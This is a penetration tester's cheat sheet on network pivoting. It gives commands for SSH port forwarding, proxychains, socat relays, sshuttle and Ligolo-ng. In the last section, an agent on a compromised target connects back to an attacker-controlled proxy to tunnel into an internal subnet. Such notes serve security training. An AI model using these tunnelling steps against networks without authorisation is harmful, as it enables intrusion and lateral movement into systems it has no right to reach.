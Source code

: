 ```yaml
---
icon: arrow-progress
---
```


# Pivoting

## <mark style="color:yellow;">PREPARATION</mark>

### <mark style="color:blue;">Checking Network Interfaces</mark>

```bash
ifconfig
```

### <mark style="color:blue;">Netstat Check Port</mark>

```bash
netstat -antp | grep 1234
```

### <mark style="color:blue;">Proxychains</mark>

```bash
tail -4 /etc/proxychains.conf 
# CHECK IF THERE IS ALREADY PROXYCHAINS FILE, IT COULD BE CALLED LIKE PROXYCHAINS
proxychains {command}
```

## <mark style="color:yellow;">SSH PORT-FORWARDING</mark>

### <mark style="color:blue;">Local Port-Forwarding</mark>

```bash
ssh -L 9000:localhost:80 user@remote-server 
# Maps port 9000 on your local machine to port 80 on the remote server.
```

### <mark style="color:blue;">Remote Port-Forwarding</mark>

```bash
ssh -R 9000:localhost:80 user@remote-server
# Forward traffic arriving at port 9000 on the remote-server to port 80 on your local machine.
```

### <mark style="color:blue;">Multiple Ports Port-Forwarding</mark>

```bash
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@13.13.13.13
```

### <mark style="color:blue;">Dynamic Port-Forwarding</mark>

```bash
ssh -D 9050 ubuntu@13.13.13.13
```

## <mark style="color:yellow;">SOCAT</mark>

<mark style="color:red;">**Socat**</mark> is a <mark style="color:purple;">**bidirectional relay utility**</mark> that establishes communication between two separate network channels without relying on SSH tunneling. It functions as a redirector, capable of listening on a specific host and port and forwarding the data to a different IP address and port.

#### <mark style="color:blue;">Starting Listener</mark>

```bash
socat TCP4-LISTEN:8080,fork TCP4:13.13.13.13:80
# Listens on 8080 and redirects it to 13.13.13.13:80
```

## <mark style="color:yellow;">SSHUTTLE</mark>

<mark style="color:red;">**SSHuttle**</mark> is a Python-based tool that <mark style="color:purple;">**eliminates the need for configuring proxychains**</mark>. However, it is limited to pivoting over SSH and does not support pivoting through TOR or HTTPS proxy servers. Sshuttle is particularly valuable for automating the setup of iptables and adding pivot rules for the remote host.

```bash
sudo sshuttle -r ubuntu@13.13.13.13 69.69.6.0/23 -v 
```

## <mark style="color:yellow;">LIGOLO-NG</mark>

<mark style="color:red;">**Ligolo-ng**</mark> is a simple, lightweight and fast tool that allows pentesters to <mark style="color:purple;">**establish tunnels**</mark> from a reverse TCP/TLS connection using a **tun** _(short form from tunnel)_ interface (without the need of SOCKS).

#### <mark style="color:blue;">Making a tun interface</mark>

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
```

#### <mark style="color:blue;">Deleting tun interface</mark>

```bash
sudo ip tuntap del dev ligolo mode tun
```

#### <mark style="color:blue;">Turning on ligolo</mark>

```bash
sudo ip link set ligolo up
```

```bash
sudo ip r add 69.69.6.0/24 dev ligolo
```

#### <mark style="color:blue;">Setting up ligolo</mark> <mark style="color:red;">agent</mark> <mark style="color:blue;">and</mark> <mark style="color:red;">proxy</mark>

```bash
./proxy -laddr 13.13.13.13:443 -selfcert # attack host
./agent -connect 13.13.13.13:443 -ignore-cert # target host
```

<mark style="color:blue;">**Connecting session**</mark>

```bash
ligolo-ng » session
? Specify a session : 1 - {MACHINE} - 13.13.13.13:51234
[Agent] » start
```
